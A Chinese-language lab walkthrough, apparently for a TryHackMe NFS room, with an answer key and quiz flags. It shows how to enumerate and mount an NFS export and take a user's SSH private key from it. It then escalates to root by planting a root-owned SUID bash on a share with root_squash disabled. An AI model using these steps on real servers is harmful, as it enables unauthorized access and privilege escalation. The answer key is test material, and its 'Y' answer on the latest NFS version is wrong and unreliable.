

**NFS** (Network File System): 网络文件系统。允许系统通过网络与其他系统共享目录和文件。通过使用NFS，用户和程序可以像访问本地文件一样访问远程系统上的文件。它通过在服务器上挂载全部或部分文件系统来实现这一点。 客户端可以使用分配给每个文件的任何权限访问文件系统的已装载部分。
我们不用太详细的了解NFS，就可以有效的利用NFS，但是，如果您对此感兴趣，我建议您使用以下资源：[https：//docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html)

首先客户端将请求远程主机上的目录挂载到本地，就像挂载物理设备一样。然后，挂载服务将使用RPC连接到相关的挂载守护进程。
- 服务器检查用户是否有权限请求挂载的任何目录，然后它将返回一个文件句柄，该句柄唯一标识服务器上的每个文件和目录。
如果有人想使用NFS访问文件，则会对服务器上的NFSD（NFS守护程序）发出RPC调用。此调用接受以下参数：

- The file handle文件句柄
- The name of the file to be accessed要访问的文件的名称
- The user's, user ID用户的，用户ID
- The user's group ID用户的组ID、
这些用于确定对指定文件的访问权限。这是控制用户权限的内容，即文件的读取和写入。

## 什么是NFS？
使用NFS协议，您可以在运行Windows和其他非Windows操作系统（如Linux、MacOS或UNIX）的计算机之间传输文件。
运行Windows Server的计算机可以充当其他非Windows客户端计算机的NFS文件服务器。同样，NFS允许基于Windows的计算机访问存储在非Windows NFS服务器上的文件。

### 回答以下问题

```ad-details
collapse: true
title: NFS代表什么？
**答案：** `Network File System`
```

```ad-details
collapse: true
title: 什么过程允许NFS客户端与远程目录进行交互，就像它是一个物理设备一样？
**答案：** `Mounting`
```

```ad-details
collapse: true
title: NFS使用什么来表示服务器上的文件和目录？

**答案：** `file handle`
```

```ad-details
collapse: true
title: NFS使用什么协议在服务器和客户端之间进行通信？
**答案** `RPC`
```

```ad-details
collapse: true
title: NFS服务器采用哪两项用户数据作为控制用户权限的参数？格式：参数1 /参数2
**答案** `user id / group id`
```

```ad-details
collapse: true
title: Windows NFS服务器可以与Linux客户端共享文件吗？（是/否）
**答案** `Y`
```

```ad-details
collapse: true
title: Linux NFS服务器可以与MacOS客户端共享文件吗？（是/否）
**答案** `Y`
```

```ad-details
collapse: true
title: NFS的最新版本是什么？[2016年发布，但截至2020年仍是最新的]这将需要外部研究。
**答案** `Y`
```

## NFS 枚举

### NFS-common

- `nfs-common` 用于`NFS`共享交互，包含以下程序：lockd、statd、showmount、nfsstat、gssd、idmapd、mount.nfs。
- 关注“**showmount**”和“**mount.nfs**”：
	- 因为在*从NFS共享中提取信息时，它们对我们最有用*。如果你想了解更多关于这个软件包的信息，请阅读[nfs-common](https://packages.ubuntu.com/jammy/nfs-common)。
- 通过`sudo apt install nfs-common` 安装
###  端口扫描

```sh file:nmap
nmap -A -p- [host-IP]
```

### 挂载NFS共享

```sh file:mounting
sudo mount -t nfs IP:share /tmp/mount/ -nolock
```


| Tag           | Function             |
| ------------- | -------------------- |
| `sudo`        | 以root身份运行            |
| `mount`       | 执行挂载命令`mount`        |
| `-t nfs`      | 指定要挂载的设备类型为 `nfs`    |
| `IP：share`    | NFS服务器IP地址及希望挂载的共享名称 |
| `/tmp/mount/` | 挂载到本地的目录             |
| `-nolock`     | 指定不使用`NLM`锁定         |

### 回答以下问题

```ad-details
collapse: true
title: 执行您选择的彻底端口扫描，有多少端口是打开的？
**答案** `7`
```

````ad-details
collapse: true
title: 哪个端口包含我们要枚举的服务？
**答案** `2049`
```bash file:nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 06:12 MST
Nmap scan report for 10.10.250.5
Host is up (0.42s latency).                                                 PORT     STATE SERVICE VERSION                                              
2049/tcp open  nfs     3-4 (RPC #100003)                                         
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)                    
No exact OS matches for host (test conditions non-ideal).                   
Network Distance: 5 hops 
...
```
````

````ad-details
collapse: true
title: 现在，使用`/usr/sbin/showmount -e [IP]`列出NFS共享，可见共享的名称是什么？
**答案** `/home`
```bash file:nfs-common
sudo apt install nfs-common 
...
/usr/sbin/showmount -e 10.10.250.5
Export list for 10.10.250.5:
/home *
```
````

是时候将共享挂载到我们的本地机器上了！
首先，使用“`mkdir /tmp/mount`”在您的计算机上创建一个目录，以便将共享装载到其中。这是在`/tmp`目录，*所以要注意，它将在重新启动时删除。*

然后，使用我们前面介绍的mount命令将NFS共享挂载到本地计算机。将目录更改为装载共享的位置：

````ad-details
collapse: true
title: 其中的文件夹名称是什么？
**答案** `cappucino`

```bash file:mount
mkdir /tmp/mount
sudo mount -t nfs 10.10.250.5:/home /tmp/mount/ -nolock                     
cd /tmp/mount/
ls

cappucino
```
````

看看这个目录里面的文件。好像我们在一个用户的主目录里...

````ad-details
collapse: true
title: 真有意思！我们现在做点调查，看看文件夹。哪个文件夹可能包含能让我们远程访问服务器的密钥？
**答案** `.ssh`
```bash
sudo ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  .gnupg  .profile  .ssh  .sudo_as_admin_successful
```
````

````ad-details
collapse: true
title: 这些钥匙中哪一个对我们最有用？
**答案** `id_rsa`
```bash
ls  ./.ssh              
authorized_keys  id_rsa  id_rsa.pub
```
````

将此文件复制到本地计算机的其他位置，并使用`chmod 600 [file]`将权限更改为“600”。假设我们对这是什么类型的目录是正确的，我们可以很容易地计算出这个键对应的用户名。

````ad-details
collapse: true
title: 我们可以使用ssh -i key-file username@ip登录机器吗？（是/否）
**答案** `Y`

```bash
cp ./.ssh/id_rsa  ~/Project 

ssh -i id_rsa cappucino@10.10.250.5 
whoami
cappucino
```
````

## 利用NFS
**我们结束了，对吧？** 
不完全是，如果您在任何机器上都有一个低权限shell，并且您发现一台机器有一个NFS共享，您可能可以使用它来升级权限，这取决于它是如何配置的。

**什么是root_squash？**

- `Root Squashing` 默认启用，防止远程到NFS的用户具有root访问权限。
- 远程root用户在连接时被分配一个用户`nfsnobody`，它具有最少的本地权限。
- 关闭`Root Squashing`则可以允许创建SUID位文件，从而允许远程用户root访问所连接的系统。

**SUID Suid**
设置了SUID位的文件，意味着可以使用文件所有者/组的权限运行文件。在这种情况下，作为超级用户。我们可以利用它来获得具有这些特权的`shell`！

**方法**
这听起来很复杂，但实际上只要您熟悉SUID文件的工作方式，就很容易理解。我们能够将文件上传到NFS共享，并控制这些文件的权限。我们可以设置我们上传的任何内容的权限，在本例中是bash shell可执行文件。然后，我们可以通过SSH登录，就像我们在上一个任务中所做的那样-并执行此可执行文件以获得root shell！

- 获取bash
	- 从目标主机获取`bash`可执行文件``scp -i key_name username@MACHINE_IP:/bin/bash ~/Downloads/bash``
	-  或从网络上下载与目标主机版本一致的`bash`可执行文件。
		- Ubuntu Server 18.04 bash : `wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`
- cp 到NFS 挂载目录 `cp ~/Downloads/bash /tmp/mount/cappucino`
- 修改bash文件权限
	- 修改属主 `sudo chown root ./bash`
	- 添加SUID`sudo chmod +s ./bash`
- 连接ssh `ssh -i key-file username@ip`
- 执行bash文件 `./bash -p`


###  回答以下问题

将bash可执行文件下载到Downloads目录。然后使用“cp ~/Downloads/bash。“将bash可执行文件复制到NFS共享。复制的bash shell必须由root用户拥有，您可以使用“sudo chown root bash”设置。

:::tabs

@tab 下载
```sh file:scp-bash
scp -O -i id_rsa cappucino@10.10.250.5:/bin/bash ～/Downloads/bash
```

@tab 复制到NFS共享
```sh cp-bash
cp ～/Downloads/bash /tmp/mount/cappucino/
```
@tab 修改为root属主
```bash
sudo chown root ./bash  
```

:::

````ad-details
collapse: true
title:现在，我们将使用“sudo chmod +[permission] bash”将SUID位权限添加到刚刚复制到共享的bash可执行文件中。我们使用什么字母来设置使用chmod设置的SUID位？

**答案：** `s`
```bash file:SUID 
sudo chmod +s ./bash
```
````


````ad-details
collapse: true
title:让我们做一个健全的检查，让我们检查“bash”可执行文件的权限使用“ls -la bash”。权限集是什么样子的？确保它以-sr-x结尾。

**答案：** `-rwsr-sr-x`
```bash
ls -la ./bash
-rwsr-sr-x 1 root cappucino 1113504 Nov 22 13:28 ./bash
```
````

````ad-details
collapse: true
title:太好了！如果一切顺利，你应该有一个壳作为根！根旗是什么？
**答案：** `THM{nfs_got_pwned}`

```sh file:ssh 
./bash -p
bash-4.4#whoami
root
bash-4.4#cd /root
bash-4.4#ls
root.txt
bash-4.4# cat root.txt 
THM{nfs_got_pwned}
bash-4.4# 
```
````

### NFS利用思路总结
